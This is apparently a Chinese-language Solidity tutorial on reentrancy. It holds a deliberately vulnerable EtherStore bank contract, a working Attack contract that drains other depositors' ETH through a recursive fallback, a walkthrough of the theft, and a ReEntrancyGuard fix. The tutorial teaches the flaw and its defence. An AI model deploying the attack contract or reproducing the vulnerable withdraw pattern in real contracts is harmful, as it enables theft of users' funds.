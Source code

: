 # 66.Re-Entrancy
## 漏洞
重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如fallback函数）循环调用合约，将合约中资产转走或铸造大量代币。
重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的fallback（回退）函数，从而造成循环调用的可能。当在攻击合约中的fallback()或receive()函数中重新调用了目标合约的withdraw()函数
假设合约A调用合约B。
重入攻击漏洞允许B在A完成执行之前回调A。
## 银行合约例子
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
contract EtherStore {
    //mapping类型的变量balances，它将用户地址映射到其在合约中的以太币余额。
    mapping(address => uint) public balances;

    //deposit的函数，它允许用户将以太币存入合约。
    //使用msg.sender来确定调用者的地址，并将msg.value中的以太币数量添加到该地址的余额中。
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    /*
    withdraw的函数，它允许用户从合约中提取他们的以太币余额。
    它首先检查调用者的余额是否大于零，如果不是，则函数会抛出异常。
    然后它使用msg.sender.call来将以太币发送回调用者的地址。
    如果发送失败，则函数会抛出异常。
    最后，它将调用者的余额设置为零，以确保他们无法多次提取相同的余额。
    */
    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // getBalance的帮助函数，它允许用户检查合约的余额。
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 攻击合约
EtherStore是一个合约，您可以存入和取出ETH。该合约容易受到可重入攻击的威胁。让我们来看看为什么。

1. 部署EtherStore
2. 从账户1（Alice）和账户2（Bob）各存入1个以太币到EtherStore
3. 部署攻击合约并指定EtherStore的地址
4. 使用账户3（Eve）调用Attack.attack函数并发送1个以太币。
   你将会得到3个以太币（其中2个以太币是从Alice和Bob那里被盗取的，另外1个以太币是从这个合约发送的）。

发生了什么？
攻击者能够在EtherStore.withdraw执行完成之前多次调用EtherStore.withdraw。

以下是函数的调用方式：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack.fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)

```solidity
contract Attack {
    EtherStore public etherStore;

    //构造函数，接受一个EtherStore合约的地址作为参数，并将其存储在etherStore变量中。
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // 当EtherStore向此合约发送以太币时，将调用Fallback函数。
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }
    
    //攻击函数，要求发送至少1 ether的以太币。
    //将1 ether的以太币存入etherStore合约中，然后立即调用etherStore的withdraw()函数以取回所有以太币。
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // 辅助函数，用来检查此合同的余额
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
* 确保在调用外部合约之前发生所有状态更改
* 使用函数修饰符防止重入
以下是一个防止重入的示例保护
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
## remix验证
部署合约EtherStore，调用deposit()函数转入1ETH，显示余额为1ETH。
![66-1.png](./img/66-1.png)
部署合约Attack，输入合约EtherStore的地址，然后调用attack（）函数并转入1ETH，会进行重入攻击，显示余额为2ETH。
![66-2.png](./img/66-2.png)
